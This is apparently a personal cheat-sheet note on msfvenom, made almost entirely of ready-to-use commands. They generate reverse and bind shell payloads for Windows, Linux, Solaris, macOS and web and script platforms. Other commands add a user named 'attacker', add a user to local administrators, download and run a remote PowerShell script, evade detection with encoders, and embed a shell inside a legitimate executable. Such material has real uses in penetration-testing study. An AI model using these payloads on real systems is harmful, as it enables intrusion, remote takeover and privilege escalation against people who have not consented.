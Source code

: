 ```yaml
---
id: Msfvenom
created_date: 28/04/2023
updated_date: 28/04/2023
type: note
---
```


#  Msfvenom
- **🏷️Tags** :  #04-2023 #msfconsole #msfvenome #CheatSheet 

## 📝 Notes

# Utiliser Msfvenom

`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

One can also use the `-a` to specify the architecture or the `--platform`

## Listing


```
msfvenom -l payloads #Payloads
```



```
msfvenom -l encoders #Encoders
```


## Common params when creating a shellcode


```
-b "\x00\x0a\x0d"

-f c

-e x86/shikata_ga_nai -i 5

EXITFUNC=thread

PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```


## **Windows**

### **Reverse Shell**


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```


### Bind Shell

```
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```


### Create User


```
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

```

### CMD Shell


```
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```


### **Execute Command**


```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
```



```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

```

### Encoder


```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```


### Embedded inside executable


```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```


## Linux Payloads

### Reverse Shell


```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

```

### Bind Shell


```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```


### SunOS (Solaris)


```
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```


## **MAC Payloads**

### Reverse Shell:


```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```


### **Bind Shell**


```
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```


## **Web Based Payloads**

### **PHP**

#### Reverse shell


```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```



```
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```


### ASP/x

#### Reverse shell


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```


### JSP

#### Reverse shell


```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```


### WAR

#### Reverse Shell


```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```


### NodeJS


```
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```


## **Script Language payloads**

### **Perl**

```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```


### **Python**


```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```


### **Bash**


```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

```
